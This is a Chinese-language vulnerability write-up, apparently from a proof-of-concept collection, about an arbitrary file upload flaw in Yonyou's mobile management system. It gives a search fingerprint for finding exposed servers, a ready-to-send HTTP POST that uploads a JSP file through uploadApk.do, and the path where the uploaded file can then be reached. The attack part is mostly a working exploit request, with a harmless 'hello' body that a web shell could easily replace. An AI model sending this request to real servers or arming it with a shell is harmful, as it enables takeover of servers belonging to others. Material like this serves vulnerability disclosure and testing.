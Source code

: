 # 

# 用友 移动管理系统 uploadApk.do 任意文件上传漏洞

## 漏洞描述

用友 移动管理系统 uploadApk.do 接口存在任意文件上传漏洞，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

用友 移动管理系统

## 网络测绘

```
app="用友-移动系统管理"
```

## 漏洞复现

登陆页面

![image-20230828164047741](images/image-20230828164047741.png)

验证POC

```
POST /maportal/appmanager/uploadApk.do?pk_obj= HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvLTG6zlX0gZ8LzO3
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cookie: JSESSIONID=4ABE9DB29CA45044BE1BECDA0A25A091.server
Connection: close

------WebKitFormBoundaryvLTG6zlX0gZ8LzO3
Content-Disposition: form-data; name="downloadpath"; filename="a.jsp"
Content-Type: application/msword

hello
------WebKitFormBoundaryvLTG6zlX0gZ8LzO3--
```

![image-20230828164101589](images/image-20230828164101589.png)

```
/maupload/apk/a.jsp
```


